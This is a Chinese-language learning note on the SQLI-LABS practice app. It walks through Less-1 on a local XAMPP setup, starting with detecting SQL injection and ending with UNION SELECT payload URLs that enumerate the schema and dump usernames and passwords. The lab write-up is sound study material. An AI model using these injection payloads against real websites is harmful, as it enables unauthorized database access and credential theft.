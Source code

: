 # SQLI-LABS学习笔记

sql注入漏洞作为传统漏洞中非常重要的一种，为了加深自己对sql注入的理解，我在本地搭建了sqllab进行学习。我用之前下载好的xampp在本地搭建环境，Sqli-labs 项目地址---Github 获取：https://github.com/Audi-1/sqli-labs

sqlilab打开后是这个样子：

**![1545023502349](C:\Users\tony\AppData\Roaming\Typora\typora-user-images\1545023502349.png)**

点开第less-1后的url:![1545026187065](C:\Users\tony\AppData\Roaming\Typora\typora-user-images\1545026187065.png)

加上id=1再加上'：![1545026282867](C:\Users\tony\AppData\Roaming\Typora\typora-user-images\1545026282867.png)

页面显示：![1545026321740](C:\Users\tony\AppData\Roaming\Typora\typora-user-images\1545026321740.png)

此时就知道存在sql注入漏洞

报错内容的关键部分： ''1'' LIMIT 0,1'

分析一下 ，先把最外面的一层单引号去掉变成：'1''LIMT 0,1

limit0,1 是显示第0到1条信息，可以暂时不用看，只要看'1''

其中1是刚才自己加的id=1的1，所以=后面的就是' '里面的内容，之前=后面输入的是1'所以就变成了'1''

现在输入1’or 1=1--+（--+用于注释）此时sql语句变成了Select ****** where id='1'or 1=1--+' LIMIT 0,1（--+后面的内容不用看因为被注释了）

然后用order by 语句，再用union select语句爆库名，表名，列名，字段：

1. 用order by+数字，确定具体数值，此处应为3

2. 爆数据库：

   http://127.0.0.1/sqli-labs-master/Less-?1/id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata--+

（group_concat(schema_name)作用是将schema_name里的内容在一行打印出来）

结果：![1545029000286](C:\Users\tony\AppData\Roaming\Typora\typora-user-images\1545029000286.png)

3. 爆security 数据库的数据表：

   http://127.0.0.1/sqli-labs-master/Less-1/?id=-1’union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=’security‘--+

结果：![1545029131519](C:\Users\tony\AppData\Roaming\Typora\typora-user-images\1545029131519.png)

4. 爆 users 表的列：

   http://127.0.0.1/sql-labs-master/Less-1/?id=-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+

结果：

![1545029480326](C:\Users\tony\AppData\Roaming\Typora\typora-user-images\1545029480326.png)

5. 爆数据：

   http://127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1,username,password from users where id=2--+

![1545029070166](C:\Users\tony\AppData\Roaming\Typora\typora-user-images\1545029070166.png)

注入语句的构造还有别的函数可以用，上面的只是一种。

less1-4的方法和上面的都是一样只是id=后面跟的内容略有差异，具体跟什么根据尝试和报错来分析。